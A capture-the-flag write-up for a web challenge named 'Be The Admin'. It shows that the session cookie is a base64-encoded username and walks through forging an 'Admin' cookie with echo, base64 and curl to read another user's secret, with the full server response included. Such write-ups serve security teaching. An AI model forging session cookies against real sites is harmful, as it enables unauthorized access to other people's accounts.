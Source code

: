 **Be The Admin**  
Points: 75  
Topics: web  
  
Description  
This is a very basic website where you can view other user's profiles, but you can only see your own secret. I'll bet other users' secrets have something of interest  
http://184.72.87.9:8012

**Write-up**  
Very simple web challenge. 

The main page shows links that take to each user's "profile" page. When first requesting the server you are given a `Set-Cookie` header:


By base64 decoding it...

```
$ echo -n "Q1RGIFBhcnRpY2lwYW50" | base64 -d
CTF Participant
```
... which matches one of the profiles' name. Being the other name "Admin" what you have to do is base64 encode it...

```
$ echo -n "Admin" | base64
QWRtaW4=
```
... and replace the `Cookie: session_id` cookie header with it's value, with a little caveat: the padding char `=` must be removed so it's safe for URL enconding, according to [Wikipedia](https://en.wikipedia.org/wiki/Base64):
> Some variants allow or require omitting the padding '=' signs to avoid them being confused with field separators, or require that any such padding be percent-encoded.

```
$ curl -s 'http://184.72.87.9:8012/profile?id=2' -v -H 'Cookie: session_id="QWRtaW4"'
*   Trying 184.72.87.9:8012...
* Connected to 184.72.87.9 (184.72.87.9) port 8012 (#0)
> GET /profile?id=2 HTTP/1.1
> Host: 184.72.87.9:8012
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: session_id="QWRtaW4"
>
< HTTP/1.1 200
< Content-Type: text/html;charset=UTF-8
< Content-Language: en-US
< Transfer-Encoding: chunked
< Date: Sat, 18 Nov 2023 20:36:23 GMT
<
<!DOCTYPE HTML>
<html>
<head>
  <title>Be The Admin</title>
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Profile</h1>
<br>
<p>Name: Admin</p>
<p>Secret: flag{boyireallyhopenobodyfindsthis!!}</p>
</body>
</html>
* Connection #0 to host 184.72.87.9 left intact
``` 
